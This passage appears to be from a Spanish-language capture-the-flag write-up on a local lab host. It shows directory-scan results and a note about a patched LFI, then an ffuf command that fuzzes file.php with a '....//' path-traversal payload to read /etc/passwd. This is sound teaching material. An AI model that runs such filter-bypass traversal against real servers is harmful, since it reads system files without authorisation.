 ```
===============================================================
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/file.php             (Status: 200) [Size: 0]
/index.html           (Status: 200) [Size: 417]
/javascript           (Status: 403) [Size: 275]
/note.txt             (Status: 200) [Size: 110]
/server-status        (Status: 403) [Size: 275]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que hay varias cosas interesantes, si entramos a `note.txt` veremos lo siguiente:

```
Hemos detectado el LFI en el archivo PHP, pero gracias a str_replace() creemos haber tapado la vulnerabilidad
```

Por lo que vemos nos comenta que habia una vulnerabilidad de `LFI`, por lo que veremos si realmente ya no esta, `fuzzeando` probando con diferentes parametros intentando leer el `passwd` de la siguiente forma.

Lo haremos en el apartado de `file.php` ya que es el unico que podria tener esta vulnerabilidad ya que tiene un `PHP`.

## Escalate user bob

### FUZZ

```shell
ffuf -u http://<IP>/file.php?FUZZ=....//....//....//....//etc/passwd -w /usr/share/wordlists/dirb/big.txt -fs 0
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/file.php?FUZZ=....//....//....//....//etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
```